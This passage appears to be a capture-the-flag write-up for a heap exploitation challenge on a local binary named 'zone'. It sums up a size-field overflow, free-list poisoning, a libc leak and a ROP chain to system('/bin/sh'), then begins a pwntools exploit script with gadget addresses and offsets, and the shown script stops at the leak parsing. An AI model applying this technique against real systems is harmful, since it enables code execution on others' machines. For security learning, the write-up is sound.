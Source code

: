 ## review / tl;dr

So in review, this is what we are doing to get rce:

*	Allocate a `64` byte chunk
*	Overflow the previous chunk with 65 bytes of data to overflow the next chunks size value with `0x80`
*	Allocate another `64` byte chunk, then free it. This will allocate the previously overflowed chunked (the one which size value we overwrote to `0x80`) and then delete it, adding it to the free list of size `0x80`
*	Allocate a `0x80` byte chunk. This will give us the `64` byte chunk we previously allocated then deleted, however it will allow us to write `0x80` btyes of data to it:
*	Use the newly allocated block to overwrite the next free pointer with the stack leak + `0x78`
*	Allocate two more chunks, which will give us a chunk that points to the return address
*	Print the contents of the last allocated chunk to get a libc infoleak
*	Write rop gadget + address of binsh + address of system
*	Exit to trigger return, which will execute our code, which will pop a shell

## Exploit

Here is the code for the exploit:

```
# Import pwntools
from pwn import *

# Establish the target process
target = process('./zone')
#gdb.attach(target)

# pop rdi ; ret 
gadget = 0x404653

# Establish the offsets to binsh, system, and the rop gadget we need
binsh = 0x16c527
system = 0x24b60


# Establish the functions to interact with the program
def alloc(size):
	target.recvuntil('5) Exit\n')
	target.sendline('1')
	target.sendline(str(size))

def delete():
	target.recvuntil('5) Exit\n')
	target.sendline("2")

def write(data):
	target.recvuntil('5) Exit\n')
	target.sendline("3")
	target.sendline(data)

def printb():
	target.recvuntil('5) Exit\n')
	target.sendline("4")

def ret():
	target.sendline("5")

# Get the stack infoleak, and filter it out. Also calculate the address for the fake block.
leak = target.recvline()
leak = leak.replace("Environment setup: ", "")
leak = int(leak, 16)
```